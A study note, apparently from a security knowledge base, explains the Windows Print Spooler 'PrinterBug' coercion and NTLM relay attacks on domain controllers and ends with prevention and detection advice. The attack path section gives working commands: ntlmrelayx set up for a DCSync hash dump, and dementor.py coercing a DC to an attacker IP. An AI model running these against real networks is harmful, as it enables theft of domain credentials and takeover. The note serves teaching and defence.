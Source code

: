 ### General Notes

The *print spooler* service is enabled by default and it is vulnerable to an exploit that allows a remote computer to connect to another computer of choice that it can reach.
- Any remote [[Objects#Users|User]] can coerce a remote machine to *authenticate* to another machine using a [[Kerberos]] *TGT*, this is called *relaying*.

**Relaying** a connection is taking the authentication attempt from a computer and acting as the middle man and sending it to another computer.
- The attacker forces a machine to authenticate to them, and instead of keeping that connection, the attacker *relays* it to another service.
- The target service believes that the initial machine is the one authenticating.
###### Print Spooler
The *print spooler* is an executable file that manages the printing process.
###### Impact on [[Domain Controller]]s
If any Domain Controller has *print spooler* service enabled - knowing it is the most powerful machine in the [[Active Directory]] domain - an attacker can force the DC to authenticate elsewhere. 

The following attacks are possible:
1. The attacker can authenticate to another DC, and perform a [[DCSync]] attack to extract all the password hashes of the Active Directory. This is the case if [[Server Message Block (SMB)]] signing is off.
2. Relay the authentication to *Active Directory Certificate Services* to obtain a [[Certificates|Certificate]] for the [[Domain Controller]] that can be used by attackers to pretend to be the Domain Controller.
3. The attacker can relay the connection to a machine with [[Kerberos Constrained Delegation Attack#Delegation|Unconstrained Delegation]] enabled, which causes that server to obtain the DC's *TGT*. The attacker can them dump the *TGT* of the DC from the server and impersonate the DC.

---
### Attack Path for [[DCSync]]

The idea here is to trick DC1 that has the print spooler enabled to connect to the attacker machine.
- The attacker machine then *relays* that authentication to DC2 and tries to perform the DCSync attack.

We set up the relay at the attacker machine:
```bash
impacket-ntlmrelayx -t dcsync://<DC2-IP> -smb2support
```
- The target here which is specified using `-t` is the DC at the given IP address and using the `dcsync` module.
- Add the `-smb2support` flag to support the SMBv2 [[Protocol]] which makes the relay work.

Now that the relay is operational, we need to trigger the printer bug exploit to make DC1 connect to the attacker machine hosting the relay:
- This can be done using [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) from a non-domain joined machine and using any authenticated user on the domain.
```bash
python3 ./dementor.py <DC1_IP> <Attacker_IP> -u <DomainUser> -d <DomainName> -p <Password>
```

Now, if we open the terminal session with the relay open, we will get the Kerberos ticket for the domain controller, as well as the password hashes.

---
### Prevention & Detection

Print Spooler should be disabled on all servers that are not printing servers. 

Additionally, there is an option to prevent the abuse of the `PrinterBug` while keeping the service running: 
- The [[Windows Registry]] Key `RegisterSpoolerRemoteRpcEndPoint` can be set to `2` to disable any remote requests at `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers`.

To detect this, look for [[Windows Events Log]] events with the successful logon ID where the source of login is coming from a weird IP address and the destination is a [[Domain Controller]].

